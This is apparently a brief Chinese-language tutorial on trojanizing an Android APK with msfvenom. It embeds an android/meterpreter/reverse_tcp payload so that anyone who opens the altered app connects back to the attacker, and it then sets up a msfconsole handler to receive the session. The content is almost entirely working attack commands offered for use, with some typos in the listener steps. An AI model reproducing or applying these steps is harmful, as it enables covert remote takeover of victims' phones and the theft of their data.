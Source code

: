 msf向存在漏洞的apk注入payload
===========

命令：`msfvenom -x /路径/apk -p android/meterpreter/reverse_tcp LHOST=ip LPORT=端口`

只要别人一打开这个被注入payload后的软件就可以获得meterpreter

当然你要启动msfconsole监听

msfconsole

haled模块

set LHOSST 127.0.0.1

set LPORT 你设置的端口

set PAYLOAD android/meterpreter/reverse_tcp

exploit